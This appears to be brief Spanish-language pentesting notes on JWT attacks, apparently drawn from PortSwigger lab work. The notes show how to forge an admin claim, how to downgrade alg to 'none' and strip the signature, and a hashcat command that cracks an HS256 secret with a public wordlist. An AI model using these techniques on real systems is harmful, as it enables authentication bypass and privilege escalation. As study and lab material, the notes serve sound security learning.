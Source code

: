 JWT
Primera Parte: Header
Segunda Parte: Payload
Tercera Parte: Signature

```jwt
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```


JWT vs JWS vs JWE

### Accepting arbitrary signatures

Cambiar el contenido de Payload

{
  "admin": true
}

### Accepting tokens with no signature

Cambiar alg a none.

{
  "alg": "none"
}

Y quitar la signature pero dejar un punto.

```jwt
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
```

### Cracking Signature

```
echo "eyJraWQiOiJhMDVjZjRkMC04ZTZjLTRkMDAtOTdmOC0zM2ZjNDZkNDQzZjQiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY1NTczMjcyN30.auoa8D3X58ZallUssp9Np993mQGcq5qwhbaNtJRIx7U" > hashjwt

hashcat -a 0 -m 16500 hashjwt jwt.secrets.list
```

To use signature key in burp:
Repeater > JSON Web Tokens > Recalculate Signature ( Press ) > Secret / Key ( Type Key )

https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list


